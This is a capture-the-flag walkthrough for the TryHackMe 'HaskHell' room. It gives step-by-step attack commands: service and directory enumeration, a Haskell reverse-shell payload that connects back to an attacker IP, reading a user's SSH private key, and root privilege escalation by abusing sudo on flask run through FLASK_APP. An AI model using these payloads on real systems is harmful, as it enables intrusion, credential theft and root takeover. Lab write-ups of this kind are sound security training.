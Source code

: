 # [HaskHell](https://tryhackme.com/room/haskhell)

## Teach your CS professor that his PhD isn't in security.

# HaskHell

## Show your professor that his PhD isn't in security.

### Get the flag in the user.txt file.

1. First, let's discover what services are running on the target machine

```bash
nmap <TARGET_IP>
```

[SCREEN01]

2. Let's perform directory enumeration to find available endpoints
   - Found endpoint: `http://<TARGET_IP>:5001/submit`

```bash
gobuster dir -u http://<TARGET_IP>:5001 -w /root/Tools/wordlists/dirbuster/directory-list-2.3-medium.txt
```

3. Test the code submission functionality by uploading a simple Haskell file to `http://<TARGET_IP>:5001/submit` then visit `http://<TARGET_IP>:5001/uploads/test.hs` to see it executes

```haskell
main :: IO ()
main = putStrLn "Hello World"
```

[SCREEN02]

4. Set up a netcat listener and create a malicious Haskell reverse shell payload using `System.Process`

```bash
nc -lvnp 4444
```

```haskell
import System.Process
main = callCommand "bash -c 'bash -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1'"
```

5. Once connected, navigate to the prof user's home directory and read the user flag

```bash
cat /home/prof/user.txt
```

[SCREEN03]

---

### Obtain the flag in root.txt

1. Explore the user's home directory and discover SSH private key

```bash
cat /home/prof/.ssh/id_rsa
```

[SCREEN04]

2. Copy the private key to your local machine, set proper permissions on the SSH key and connect as prof user

```bash
chmod 600 id_rsa
ssh -i id_rsa prof@<TARGET_IP>
```

3. Check what sudo privileges the prof user has
   - The user can run `/usr/bin/flask run` as root without password

```bash
sudo -l
```

[SCREEN05]

4. Abuse Flask's `FLASK_APP` environment variable to execute arbitrary Python code as root

```bash
echo 'import os; os.system("/bin/bash")' > /tmp/app.py
export FLASK_APP=/tmp/app.py
sudo /usr/bin/flask run
```

[SCREEN06]

5. Read the root flag from the root directory

```bash
cat /root/root.txt
```

[SCREEN07]
